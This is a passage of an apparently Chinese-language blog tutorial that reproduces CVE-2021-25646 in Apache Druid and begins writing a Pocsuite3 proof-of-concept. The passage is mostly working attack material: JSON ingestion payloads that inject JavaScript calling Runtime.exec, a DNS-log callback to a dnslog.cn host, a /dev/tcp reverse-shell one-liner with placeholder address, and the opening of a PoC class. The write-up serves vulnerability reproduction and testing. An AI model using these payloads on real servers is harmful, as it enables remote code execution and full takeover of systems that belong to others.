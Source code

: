 ```py
"filter":{
    "type":"javascript",
    "function":"function(value){return java.lang.Runtime.getRuntime().exec('curl localhost:9999')}",
    "dimension":"added",
    "":{
    "enabled":"true"
    }
}
```
拼接后的`data`数据为
```bash
{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping 9ktg6o.dnslog.cn')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"cacheKey":"c67e2881f1c64110b40c0f67608b0022"}}
```
查看DNSlog
![在这里插入图片描述](https://img-blog.csdnimg.cn/fe4c5588be2e4d61b4a8e1696a4f2f94.png)
将exec中的命令也可以替换成反弹shell

```bash
/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx/xxx 0>&1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/304297fe7dde47f982a7ed64deda8cc9.png)
## 二、利用Pocsuite框架写POC&EXP
对漏洞复现完之后，对整体流程便有了一定的了解，接下来借助pocsuite编写一下poc和exp

> (脚本写的垃圾，大佬勿喷)

```py
from collections import OrderedDict

from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.api import REVERSE_PAYLOAD
from pocsuite3.lib.core.interpreter_option import OptDict
from pocsuite3.lib.utils import random_str
import json

class POC(POCBase):
    vulID = 'attackbot-30'  # 自有编号
    vulnerability = 'CVE-2021-25646'  # 填写CVE或者CNVD编号没有null
    author = 'attackbot'  # 默认为attackbot不用修改
    vulDate = '2021-1-7'  # 漏洞公开的时间,不知道就写今天
    grade = 'high'  # 等级选项high,medium,low
    appPower = 'apache'  # 漏洞厂商名字
    appName = 'Druid'  # 漏洞应用名称
    appVersion = 'Apache Druid < 0.20.1'  # 漏洞影响版本
    name = 'attackbot_30_Apache_RCE_poc.py'  # 命名编号
    vulType = 'RCE'  # 漏洞类型,类型参考见 漏洞类型规范表
    vulclassification = 'Web'  # 漏洞归类 Web,Middleware,System,Internet equipment,safety equipment
    createDate = '2021-1-7'  # 编写 PoC 的日期
    updateDate = '2021-1-7'  # PoC 更新的时间,默认和编写时间一样
    desc = '''
    在Druid 0.20.0及更低版本中，用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。攻击者可直接构造恶意请求执行任意代码，控制服务器。
    '''
```